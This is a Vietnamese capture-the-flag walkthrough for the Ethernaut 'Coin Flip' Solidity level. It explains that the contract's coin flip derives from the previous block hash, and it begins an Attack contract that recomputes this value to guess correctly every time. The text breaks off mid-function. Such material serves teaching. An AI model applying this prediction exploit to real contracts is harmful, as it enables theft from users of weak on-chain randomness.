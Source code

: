 ### Coin Flip Solution

- Đầu tiên, khẳng định một điều rằng: việc tự đoán 10 lần đúng liên tiếp bằng đỏ đen gần như là bất khả thi.
- Nhận thấy rằng trong function flip() có tính toán mặt sấp/ngửa sau đó submit kết quả luôn, nên ta không thể biết được kết quả tính toán là gì để can thiệp vào quá trình submit. Tuy nhiên nó gợi ý tưởng cho ta có thể viết một contract khác chia function đó ra làm đôi, một function có nhiệm vụ tính toán và một function có nhiệm vụ submit kết quả.
- Đã đến lúc phải code, ta sẽ sử dụng Remix IDE thay cho Chrome console. Ta sẽ viết một contract **Attack** khác như sau, nhớ hay thế biến target bằng địa chỉ instance của bạn:

```js
pragma solidity ^0.4.18;


contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract Attack {
  CoinFlip cf;
  // replace target by your instance address
  address target = 0x6638326b577520c1eb0856745f294582b64ce96d;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function Attack() {
    cf = CoinFlip(target);
  }

  function calc() public view returns (bool){
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

```